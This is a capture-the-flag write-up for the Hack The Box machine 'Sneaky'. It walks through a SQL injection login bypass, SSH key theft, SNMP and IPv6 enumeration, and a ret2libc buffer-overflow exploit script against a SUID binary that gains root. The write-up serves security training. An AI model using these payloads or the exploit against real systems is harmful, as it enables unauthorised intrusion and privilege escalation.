

# Target
| Category          | Details                                                                 |
|-------------------|-------------------------------------------------------------------------|
| 📝 **Name**       | [Sneaky](https://app.hackthebox.com/machines/Sneaky)                    |  
| 🏷 **Type**       | HTB Machine                                                             |
| 🖥 **OS**         | Linux                                                                   |
| 🎯 **Difficulty** | Medium                                                                  |
| 📁 **Tags**       | SQLi, authentication bypass, SNMP, IPv6, buffer overflow, ret2libc, gdb |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-26 09:11 +0100
Nmap scan report for 10.129.10.96
Host is up (0.090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```

#### Enumerate web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ feroxbuster --url http://$TARGET -w /usr/share/wordlists/dirb/big.txt -x php,html,js,png,jpg,py,txt,log -C 404
<SNIP>
200      GET      142l      758w    47908c http://10.129.10.96/underdev.gif
200      GET       11l       20w      183c http://10.129.10.96/
301      GET        9l       28w      311c http://10.129.10.96/dev => http://10.129.10.96/dev/
200      GET       11l       20w      183c http://10.129.10.96/index.html
200      GET       14l       32w      464c http://10.129.10.96/dev/index.html
<SNIP>
```
Discovered `/dev` endpoint presents simple login form. Passing `admin:'` credentials triggers HTTP 500 Internal Server Error, which proves SQLi.

#### Bypass authentication with `' OR 1=1; --`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ curl http://$TARGET/dev/login.php -d "name=admin&pass=' OR 1=1; --"
<SNIP>
<dl>name: admin</dl>
</dt>
<dt>
<dl>name: thrasivoulos</dl>
</dt>
<p>
<p>
<p>
<p><center><a href="sshkeyforadministratordifficulttimes">My Key</a></center>
<p><center>Noone is ever gonna find this key :P</center>
<SNIP>
```
We were able to gain access as `admin` user, and additionally we have discovered SSH private key for user `thrasivoulos`.

#### Exfiltrate SSH private key
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ wget -q http://$TARGET/dev/sshkeyforadministratordifficulttimes -O id_rsa && chmod 600 id_rsa
```
At this stage, we have obtained an SSH private key, but there is no known SSH service available for access. Therefore, further reconnaissance is required.

#### Scan UDP ports
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ nmap -sU --top-ports 200 $TARGET                     
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 07:13 +0100
Nmap scan report for 10.129.10.96
Host is up (0.025s latency).
Not shown: 198 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp

Nmap done: 1 IP address (1 host up) scanned in 219.02 seconds
```
Since SNMP is exposed, it may disclose sensitive system details. We should enumerate it further as part of our reconnaissance efforts.

#### Enumerate SNMP with `snmpwalk`
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ snmpwalk -v2c -c public -m ALL $TARGET
<SNIP>
IP-MIB::ipAddressType.ipv4."10.129.10.96" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv4."10.129.255.255" = INTEGER: broadcast(3)
IP-MIB::ipAddressType.ipv4."127.0.0.1" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:01" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:94:ee:b8" = INTEGER: unicast(1)
IP-MIB::ipAddressType.ipv6."fe:80:00:00:00:00:00:00:02:50:56:ff:fe:94:ee:b8" = INTEGER: unicast(1)
<SNIP>
```
Enumeration with `snmpwalk` (and `snmp-check`) produced substantial output. Of particular interest is the presence of IPv6 interfaces in addition to IPv4, which may expand the attack surface.

#### Scan discovered IPv6 `dead:beef:0000:0000:0250:56ff:fe94:eeb8` address
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ nmap -6 -p- dead:beef:0000:0000:0250:56ff:fe94:eeb8
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 07:46 +0100
Nmap scan report for dead:beef::250:56ff:fe94:eeb8
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
```
We were able to identify an SSH service bound to the IPv6 interface.

#### Access target over SSH as `thrasivoulos` user using private key
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ ssh -6 -o PubkeyAcceptedAlgorithms=+ssh-rsa -o HostKeyAlgorithms=+ssh-rsa -i id_rsa thrasivoulos@dead:beef:0000:0000:0250:56ff:fe94:eeb8
<SNIP>
thrasivoulos@sneaky:~$ id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) groups=1000(thrasivoulos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
```

#### Capture user flag
```
thrasivoulos@sneaky:~$ cat /home/thrasivoulos/user.txt 
3b73f597a376445aac712257174924e0
```

### Root flag

#### Search for SUID binaries
```
thrasivoulos@sneaky:~$ find / -perm -4000 2>/dev/null
<SNIP>
/usr/local/bin/chal
<SNIP>

thrasivoulos@sneaky:~$ ls -l /usr/local/bin/chal
-rwsrwsr-x 1 root root 7301 May  4  2017 /usr/local/bin/chal
```
`/usr/local/bin/chal` seems to be unknow binary, let's exfiltrate it analyze locally.

#### Exfiltrate and analyze `/usr/local/bin/chal`


We can see `strcpy` being used and accepting `argv[1]` which could lead to buffer overflow vulnerability.

#### Check properties of `chal` executable
```
┌──(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ checksec --file=chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   67 Symbols        No    0               1               chal
```

#### Check system-wide ASLR on target
```
thrasivoulos@sneaky:~$ cat /proc/sys/kernel/randomize_va_space
0
```
With NX, PIE and ASLR disabled this binary should be easy to exploit. We will use ret2libc attack.

#### Generate payload for buffer overflow
```
┌──(.venv)─(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ python3 -c "from pwn import *; print(cyclic(600).decode())"
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf
```

#### Pass payload to binary using `gdb` 
```
thrasivoulos@sneaky:~$ gdb /usr/local/bin/chal
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/local/bin/chal...(no debugging symbols found)...done.
(gdb) r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf
Starting program: /usr/local/bin/chal aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf

Program received signal SIGSEGV, Segmentation fault.
0x61716461 in ?? ()
(gdb) info registers eip
eip            0x61716461       0x61716461
```

#### Calculate EIP offset
```
┌──(.venv)─(magicrc㉿perun)-[~/attack/HTB Sneaky]
└─$ python3 -c "from pwn import *; print(cyclic_find(0x61716461))"
362
```

#### Identify `system`, `exit`, and `/bin/sh` in `libc` for ret2libc attack
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e62310 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e55260 <__GI_exit>
(gdb) find &system, +9999999, "/bin/sh"
0xb7f84bac
warning: Unable to access 16000 bytes of target memory at 0xb7fcef34, halting search.
1 pattern found.
```

#### Prepare and run exploit
```
{ cat <<'EOF'> exploit.py
import subprocess
import struct

offset = 362
system_offset = 0xb7e62310
exit_offset = 0xb7e55260
binsh_offset = 0xb7f84bac

payload  = b"\x90" * offset
payload += struct.pack("<I", system_offset)
payload += struct.pack("<I", exit_offset)
payload += struct.pack("<I", binsh_offset)

subprocess.call(["/usr/local/bin/chal", payload])
EOF
} && python3 exploit.py
# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
```

#### Capture root flag
```
# cat /root/root.txt
adb954698717087b380276b25359dd0f
```
